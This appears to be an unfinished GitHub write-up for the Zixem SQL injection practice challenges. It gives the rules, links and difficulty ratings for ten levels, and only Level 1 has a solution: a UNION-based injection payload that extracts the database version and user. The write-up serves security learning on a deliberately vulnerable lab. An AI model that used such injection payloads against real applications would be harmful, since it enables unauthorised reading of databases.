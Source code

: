 ## Zixem SQLi

[[Zixem SQLi](http://www.zixem.altervista.org/SQLi/)]

> #### RULES
>
> Use only **UNION BASED!**
>
> Your mission is to select only the **version** & **user** and to **take screenshot** as proof.

## Write Up

#### SQLi challenges

| [Level 1](http://www.zixem.altervista.org/SQLi/level1.php?id=1) | Super Easy |
| ------- | ---------- |

 `?id=-9999 union select version(),user(),3; --`

| [Level 2](http://www.zixem.altervista.org/SQLi/level2.php?showprofile=4) | Easy |
| ------- | ---------- |

| [Level 3](http://www.zixem.altervista.org/SQLi/level3.php?item=3) | Medium |
| ------- | ---------- |

| [Level 4](http://www.zixem.altervista.org/SQLi/level4.php?ebookid=7) | Normal |
| ------- | ---------- |

| [Level 7](http://www.zixem.altervista.org/SQLi/level7.php?id=1) | Medium |
| ------- | ---------- |

| [Level 8](http://www.zixem.altervista.org/SQLi/lvl8.php?id=1) | Hard |
| ------- | ---------- |

| [Level 9](http://www.zixem.altervista.org/SQLi/lvl9.php?id=1) | Medium |
| ------- | ---------- |

| [Level 10](http://www.zixem.altervista.org/SQLi/lvl10.php?x=ISwwYGAKYAo%3D) | Pro |
| ------- | ---------- |

#### BF challenges

| [Level 5](http://www.zixem.altervista.org/SQLi/login_lvl5.php) | Hard |
| ------- | ---------- |

#### SQLi-Blind challenges

| [Level 6](http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10) | Expererinced |
| ------- | ---------- |
